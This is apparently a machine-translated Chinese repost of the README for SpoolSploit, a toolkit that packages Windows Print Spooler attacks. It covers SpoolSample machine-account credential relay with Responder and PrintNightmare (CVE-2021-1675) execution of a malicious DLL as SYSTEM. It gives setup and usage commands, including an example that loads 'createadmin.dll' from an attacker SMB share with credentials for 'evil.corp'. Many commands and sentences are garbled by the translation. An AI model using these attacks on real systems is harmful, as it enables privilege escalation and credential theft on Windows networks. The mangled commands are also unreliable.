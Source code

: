 # SpoolSploit:Windows 打印假脱机程序漏洞的集合

> -= the last fantasy =-荣誉出品本字幕仅供学习交流，严禁用于商业途径

[![](img/a3d14e895bfbd13ec254311938c25d85.png)](https://blogger.googleusercontent.com/img/a/AVvXsEgTVv18DM3J9nzjl6L45Vg6LD7F10WYJIAQt2eD3lilZ9Ce2k5JgZtTjf5kFavTaffyoHdMfZIneeiRzOF9AvfNdx4e2ji1bkEkuNU_iT-hvtAgVFL4UAK6m89nL6fOPfPV4lmV4yblKBvp3d1dUqp4KctW4SmiTXbUZKVYHdCZfljKFAlw-vLUj7hU=s728)

SpoolSploit 是一个 Windows 打印假脱机程序开发的集合，它与其他实用程序一起打包，以供实际开发。一些非常有效的方法是中继机器帐户凭证，以提升权限并在具有完全系统访问权限的端点上执行恶意 dll。

![](img/dc4a57b9f4cdb91deee34b7e0a16ee5b.png)

**入门**

截至发布日，SpoolSploit Docker 容器已经在最新版本的`**MacOS**`、`**Ubuntu**` 、**、**和**、T3 上测试成功。**

虽然不是必需的，但是如果您希望在 SpoolSploit 容器中托管恶意 dll 或进行凭据中继攻击，您应该确保运行 Docker 的主机上没有使用端口 445。在 Windows 主机上运行该容器时，这种情况最为普遍，因为它默认使用端口 445。如果在您的主机上禁用端口 445 不切实际，那也没关系！您可以简单地在一个虚拟机中运行 docker 容器，该虚拟机将网络适配器配置为桥接模式。这将允许提供恶意 dll 和中继凭据。如果您只想为恶意 dll 提供服务，您可以简单地将 dll 托管在主机操作系统上的匿名访问共享或受损的服务器共享上。

**创建并访问 SpoolSploit Docker 容器**

*   克隆此存储库

**git 克隆 https://github.com/BeetleChunks/SpoolSploit**

*   构建 SpoolSploit Docker 容器映像

**cd 排存器排存器
sudo dock build-t 排存器排存器。**

*   创建并启动 SpoolSploit Docker 容器

**sudo 坞站运行-dit-p45:445–名称排存器排存器排存器:最新**

*   附在容器上

**sudo dock exec-it 排流器/bin/bash**

**命令行用法**

**用法:spool _ sploit . py[-h]-a {spoolsample，nightmare} -rH RHOST -rP {139，445 }[-lH LHOST][-lS LSHARE]-d DOMAIN-u USER-p PASSWD
可选参数:
-h，–帮助显示此帮助消息并退出
-a {spoolsample，nightmare}，–要对目标执行的攻击类型{ spool sample，nightmare}
。
-rH RHOST，–RHOST RHOST
远程目标 IP、CIDR 范围或文件名(文件:)
-rP {139，445}，–rport { 139，445}
远程 SMB 服务器端口。
-lH LHOST，–LHOST LHOST
监听主机名或 IP
-lS LSHARE，–LSHARE LSHARE
暂存 SMB 共享(UNC)
-d 域，–DOMAIN
用于身份验证的域
-u 用户，–Username 用户
用于身份验证的用户名
-p PASSWD，–Password PASSWD
用于身份验证的密码
示例–spool 示例:
python3 spool_sploit-rP 445 -rH 10.5.1.10
示例–噩梦:
python 3 spool _ sploit . py-a nightman-lS ' \ 10 . 14 . 1 . 24 \ C $ \ create admin . dll '-d evil . corp-u rjmcdow-p ' p 4 ss word 123！'-rP 445 -rH 10.5.1.10**

**spool sample–捕获并中继 Windows 机器帐户凭证**

SpoolSploit Docker 容器包括[响应者](https://github.com/lgandx/Responder)，用于转发在 SpoolSploit 中执行`spoolsample`攻击所获得的机器帐户散列。由于已经有几篇很好的文章详细介绍了为特权提升而传递特权机器帐户凭证的过程，所以我在这里就不再赘述了。

![](img/283ac56b03f57a441e1bd2fab36b7155.png)

p**rint nightmare(CVE-2021-1675)–以系统身份在 Windows 目标上执行恶意 DLLs】**

SpoolSploit 容器中包含一个通过 Impacket 实现的 SMB 服务器。在 SpoolSploit 中执行`**printnightmare**`攻击时，该服务器可用于托管恶意 dll。默认的 SMB 服务器设置有效，但是如果您想要定制它们，您可以修改位于**T1 的配置文件。**

您唯一需要做的就是将您的 DLL 复制到 SpoolSploit 容器中 SMB 服务器的共享文件夹中。容器中的共享路径是`**/home/dlogmas/smbserver/share/**`。以下命令演示了如何将 DLL 上载到 SpoolSploit 容器，并使 SMB 服务器可以访问它。

sudo docker cp。/恶意. dll spoolsploit:/home/dlogmas/SMB server/share/
sudo docker exec spoolsploit/bin/sh-c ' sudo chown dlogmas:dlogmas/home/dlogmas/SMB server/share/恶意. dll'

![](img/014b4d0d27ec31bcaee212355cc9a4f7.png)[**Download**](https://github.com/BeetleChunks/SpoolSploit)